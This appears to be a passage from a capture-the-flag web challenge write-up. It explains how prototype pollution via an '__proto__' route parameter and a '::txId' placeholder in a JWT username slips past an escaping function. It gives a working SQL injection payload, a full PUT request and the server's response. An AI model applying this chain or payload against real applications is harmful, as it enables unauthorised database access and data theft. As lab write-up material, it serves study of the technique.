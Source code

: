 



### Prototype pollution
We can note that we might be able to perform a  prototype pollution in the lines which prepares the db insertion:

```
const assetTransactions = transactions[asset] ?? (transactions[asset] = {});
assetTransactions[txId] = action;
```

which basically allows us to set the `txId` key to `action` using `__proto__` as the `asset` parameter

`transactions[__proto__][txId] = action`.

this will be useful in the future.

### Using txId as a key

The keys of the object are sanitized in the `sqlEscape` function, but not the prototype ones, so the value of the key `txId` can contain the sql injection, but we can't use this key since we don't know it, because `txId` is randomly generated every for every transaction.

However, if we are able to specify `txId` in a query parameters, the `prepare` function will change it to the actual value and then will access the value for that key.

What we can do is use `::txId` in the username of the JWT (remember the body request in the first paragraph), so the `prepare` function will interpret `:txId` as a key,which will be replaced with its values, which is the `action` parameter we supplied.

### SQLi

This allows us to use the value which we polluted in the prototype, whose key is `txId`. As we state before, its values has not been sanitized, so we can specify as `action` a SQL injection:
`"',(41,'xxx',1,(SELECT%20flag%20FROM%20flag))--`

which insert at txId 41 the data `(41,xxx,1, the_flag)`

The final payload will be:

```
PUT http://127.0.0.1:3000/api/priv/assets/__proto__/"'),(41,'xxx',1,(SELECT%20flag%20FROM%20flag))-- HTTP/1.1
authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6WyJzcHJpdHovLi4vLi4vLi4vaGVhbHRoIyIsIjo6dHhJZCJdLCJpYXQiOjE2MzU3Mjc2OTZ9.j__LeYofEKnK94JA-0kW9-u8ZLlrX7AyQfci4a4Q1Pk
...
Connection: close
```
Response:
```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 22
...
Connection: close

{"id":247341473789376}
```
